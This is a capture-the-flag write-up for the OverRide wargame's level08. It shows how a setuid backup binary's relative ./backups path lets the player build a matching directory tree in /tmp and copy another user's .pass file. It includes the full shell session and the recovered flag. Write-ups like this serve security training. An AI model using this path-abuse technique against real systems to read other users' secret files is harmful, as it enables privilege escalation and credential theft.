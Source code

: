 # Write up

Canary and RELRO on here, chances that we will have to exploit a buffer overflow are low.
Lets try the program.
```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 .pass
level08@OverRide:~$ ls -a backups
.  ..  .log  .pass
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

The program tries to copy a given file to the backup folder.
However, the concatened `./backups` filename uses the current folder `.`, so we can falsify it.

We can't create the necessary folders here since level09 owns it and doesn't give us the write permissions.
```
level08@OverRide:~$ ls -l
total 16
drwxrwx---+ 1 level09 users    80 Nov  3 08:31 backups
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
level08@OverRide:~$ mkdir -p backups/home/users/level09
mkdir: cannot create directory `backups/home': Permission denied
```

However, because of the write rights in tmp and the use of the `.` folder, we can receive the file directly from `tmp`
```
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Great, time to dissassemble the file because the subject asks for it now... :')